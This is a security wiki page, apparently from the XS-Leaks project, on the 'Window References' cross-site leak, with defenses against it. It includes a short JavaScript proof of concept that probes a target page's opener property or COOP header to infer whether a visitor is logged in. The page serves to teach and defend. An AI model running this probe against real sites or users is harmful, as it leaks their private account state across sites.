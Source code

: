 +++
title = "Window References"
description = ""
date = "2020-10-08"
category = [
    "Attack",
]
abuse = [
    "Window References",
]
defenses = [
    "Fetch Metadata",
    "SameSite Cookies",
    "COOP"
]
menu = "main"
weight = 2
+++


If a page sets its `opener` property to `null` or is using [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) protection depending on the users' state, it becomes possible to infer cross-site information about that state. For example, attackers can detect whether a user is logged in by opening an endpoint in an iframe (or a new window) which only authenticated users have access to, simply by checking its window reference. [^demo-coop]

## Code Snippet
The below snippet demonstrates how to detect whether the `opener` property was set to `null`, or whether the [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) header is present with a value other than `unsafe-none`. This can be done with both iframes and new windows.

```javascript
// define the vulnerable URL
const v_url = 'https://example.org/profile';

const exploit = (url, new_window) => {
  let win;
  if(new_window){
    // open the url in a new tab to see if win.opener was affected by COOP
    // or set to null
    win = open(url);
  }else{
    // create an iframe to detect whether the opener is defined
    // won't work for COOP detection, or if a page has implemented framing protections
    document.body.insertAdjacentHTML('beforeend', '<iframe name="xsleaks">'); 
    // redirect the iframe to the vulnerable URL
    win = open(url, "xsleaks");
  }
  
  // wait 2 seconds to let the page load
  setTimeout(() => {
    // check the opener property of the newly opened window
    if(!win.opener) console.log("win.opener is null");
    else console.log("win.opener is defined");
  }, 2000);
}
exploit(v_url);
exploit(v_url, 1);

```

## Defense

To mitigate this type of XS-Leak, be consistent across different pages: set the `opener` property to the same value on all pages using COOP. Using JavaScript to set `opener` to `null` can result in edge cases because it's possible to disable JavaScript entirely using iframe's sandbox attribute.

## References

[^demo-coop]: Detect Cross-Origin-Opener-Policy header with popup, [link](https://xsinator.com/testing.html#COOP%20Leak)
